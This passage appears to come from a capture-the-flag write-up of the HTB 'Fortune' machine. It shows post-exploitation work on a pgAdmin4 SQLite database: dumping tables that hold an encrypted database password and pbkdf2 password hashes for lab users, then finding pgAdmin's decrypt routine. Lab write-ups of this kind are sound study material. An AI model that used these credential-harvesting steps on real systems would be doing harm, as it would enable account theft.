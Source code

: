     fortune$ sqlite3 pgadmin4.db
    SQLite version 3.24.0 2018-06-04 19:24:41
    Enter ".help" for usage hints.
    sqlite> .tables
    alembic_version              roles_users
    debugger_function_arguments  server
    keys                         servergroup
    module_preference            setting
    preference_category          user
    preferences                  user_preferences
    process                      version
    role
    sqlite> select * from server;
    1|2|2|fortune|localhost|5432|postgres|dba|utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz||prefer||||||<STORAGE_DIR>/.postgresql/postgresql.crt|<STORAGE_DIR>/.postgresql/postgresql.key|||0||||0||22||0||0|
    

I’ll pull the column headings for the `server` table, and see that the second
column above (which has the value 2) is `user_id`:

    
    
    sqlite> PRAGMA table_info(server);
    0|id|INTEGER|1||1
    1|user_id|INTEGER|1||0
    2|servergroup_id|INTEGER|1||0
    3|name|VARCHAR(128)|1||0
    4|host|VARCHAR(128)|0||0
    5|port|INTEGER|1||0
    6|maintenance_db|VARCHAR(64)|0||0
    7|username|VARCHAR(64)|1||0
    8|password|VARCHAR(64)|0||0
    9|role|VARCHAR(64)|0||0
    ...[snip]...
    

Querying the `user` table, I can see the user with id 2 is bob:

    
    
    sqlite> select * from user;;
    1|charlie@fortune.htb|$pbkdf2-sha512$25000$3hvjXAshJKQUYgxhbA0BYA$iuBYZKTTtTO.cwSvMwPAYlhXRZw8aAn9gBtyNQW3Vge23gNUMe95KqiAyf37.v1lmCunWVkmfr93Wi6.W.UzaQ|1|
    2|bob@fortune.htb|$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg|1|
    

I also get bob’s password hash.

### How To Decrypt

In `/usr/local/pgadmin4/pgadmin4-3.4/web/pgadmin/utils/crypto.py`, I find the
`decrpyt` function:

    
    
    def decrypt(ciphertext, key):
        """
        Decrypt the AES encrypted string.
    